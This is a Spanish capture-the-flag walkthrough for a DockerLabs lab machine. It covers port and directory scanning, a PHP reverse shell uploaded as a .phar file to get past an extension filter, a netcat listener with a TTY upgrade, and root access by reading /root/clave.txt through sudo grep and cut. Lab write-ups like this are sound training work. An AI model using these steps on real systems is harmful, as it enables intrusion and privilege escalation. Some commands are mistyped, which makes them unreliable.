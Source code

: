 ```yaml
---
title: DockerLabs - DockerLabs
published: true
categories: DockerLabs
---
```



| OS     | Dificultad  | Creator           |
| ------ | ----------- | -------------     | 
| Linux  |  Fácil      | ElPinguinoDeMario | 


# Reconocimiento

Comenzamos el proceso de reconocimiento identificando los puertos abiertos en el sistema objetivo. 
```shell
sudo nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oG ports 
```
-  `-p-`: Escanea todos los puertos (1-65535).
- `--open`: Solo muestra los puertos abiertos.
- `-sS`: Realiza un escaneo SYN, que es rápido y discreto.
- `--min-rate=5000`: Envía al menos 5000 paquetes por segundo, acelerando el escaneo.
- `-n`: No realiza resolución DNS.
- `-Pn`: No realiza ping previo para determinar si el host está activo.
- `-vvv`: Muestra resultados detallados y en tiempo real.

![image](https://github.com/user-attachments/assets/505dcb13-4f0c-4d3c-9a85-243319937411)

Durante el escaneo, descubrimos que los siguientes puertos están activos:
- `80` (HTTP)

A continuación, evaluamos si los puertos abiertos presentan alguna vulnerabilidad, además de obtener más información sobre los servicios asociados a esos puertos.

```bash
nmap -p 80-sCV 172.17.0.2 -oG targeted
```
![image](https://github.com/user-attachments/assets/a3b78674-c6ff-471a-8c2d-73efd12ec5c6)

# Exploración Web

Accedemos a la maquina y no vemos nada interesante a primera vista.

![image](https://github.com/user-attachments/assets/8e867cf8-4c54-46ae-82fe-37ce63c38252)

Utilizamos `Gobuster` para realizar un reconocimiento web y explorar los directorios disponibles en el sitio.
```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,doc,html,txt,img
```
- `gobuster dir` - Indica que estás utilizando la herramienta Gobuster para realizar un escaneo de directorios.
- `-u http://172.17.0.2/` Especifica la URL objetivo que deseas escanear en busca de directorios.
- `-w` Especifica que diccionario queremos usar
- `-x` Para indicar que tipo de extension queremos que nos encuentre

![image](https://github.com/user-attachments/assets/1c7abed3-4cb1-4b91-9502-c2cb52735451)

Encontramos varios directorios interesantes, entrando en machines.php podemos ver que podemos subir maquinas, pero y si en vez de eso subimos una reverse shell a traves de php.

![image](https://github.com/user-attachments/assets/a0124837-926e-4e38-9af7-d4b601fcfe15)

## Reverse Shell

Generamos la reverseshell utilizando **Pentest Monkey**, una herramienta popular para crear shells PHP que nos permiten obtener acceso remoto al servidor. La ruta de la reverseshell es la siguiente:

[Reverseshell de Pentest Monkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

![image](https://github.com/user-attachments/assets/7ba3c413-256e-48b2-b434-9fca77db2d73)

Cuando la tengamos solo tenemos que subirla, pero parece que no nos deja subirla ya que solo deja .zip.

![image](https://github.com/user-attachments/assets/f7b85846-e2e9-4dff-b083-2c1b478de955)

Investigando un poco vemos que hay mas extension que son php pero terminan en .php. Para mas informacion visitar esta pagina [File Upload General Methodology](https://book.hacktricks.xyz/pentesting-web/file-upload).

Probaremos con la extension .phar 

![image](https://github.com/user-attachments/assets/c3c37cb1-9ba7-4c66-be51-31a72fe72f13)

La pagina no restringe la entrada de archivos `.phar`.

![image](https://github.com/user-attachments/assets/cd57b64d-5ae7-487b-814e-e38f8a675981)

Ya solo falta cargar la ruta donde este el shell.phar, la cual esta en `/uploads/`. Mientras debemso de estar en escucha por el puerto que hallamos definido en el `shell.phar`.

![image](https://github.com/user-attachments/assets/2f29cb10-beea-47f2-a7a8-0f8733b18934)

```bash
nc lvnp 4444
```
Solo faltaria abrir en la pagina el archivo `shell.phar` y ya estariamos dentro.

![image](https://github.com/user-attachments/assets/b56d8709-69f1-4589-a5bf-565975ee2333)


### TTY ReverseShell

#### Iniciar una sesión de shell interactiva
En nuestra shell básica, ejecutamos el siguiente comando para forzar la creación de una sesión de bash interactiva:
```bash
script /dev/null -c bash
```
#### Suspender la shell
Una vez que el comando anterior está en ejecución, utilizamos
```bash
Control+Z
```
para suspender temporalmente nuestra shell.

#### Preparar nuestro terminal local:
Antes de volver a nuestra shell, configuramos nuestro terminal local:
```bash
stty raw -echo; fg
```

#### Resetear la configuración del terminal
Ahora que tenemos el control de la shell, la reseteamos para asegurar que se comporta correctamente:
```bash
reset
```

#### Configura el tipo de terminal:
```bash
xterm
export TERM=xterm
export SHELL=bash
```

#Intrucion
Al ejecutar el comando `sudo -l`, observamos que podemos ejecutar `cut` y `grep` como `root`. Si no sabemos cómo aprovechar esto, podemos recurrir a [GTFOBins](https://gtfobins.github.io/).

![image](https://github.com/user-attachments/assets/050429b9-46eb-4e55-b3d9-5a0a4dfaab65)

Haciendo un reconocimiento basico por los directorios `tmp` y `opt`, encontramos un archivo `nota.txt`, dentro del direcotio `opt`.

![image](https://github.com/user-attachments/assets/7dfda6ac-8eab-481e-a071-f11b32abeca0)

Nos dice que la clave de root, se encuentra en el directorio` /root/clave.txt`, entonces a traves de `cut` y `grep` podemos ver el contenido de ese documento.

Con `grep` debemos de poner lo siguiente:

```bash
LFILE=/root/clave.txt
sudo grep '' $LFILE
```
![image](https://github.com/user-attachments/assets/5b324fbb-b64c-4a1b-aa5d-f1e4878f8684)

Y ya tendriamos la clave 

Con `cut` seria de la siguiente manera:

```bash
LFILE=/root/clave.txt
sudo cut -d "" -f1 "$LFILE"
```

![image](https://github.com/user-attachments/assets/8ed6e903-1fc8-4882-a5e4-2a808f2ec181)

Probamos la clave

![image](https://github.com/user-attachments/assets/a673a51c-421f-4b9b-aba6-58b912e14509)

Ya seriamos root.

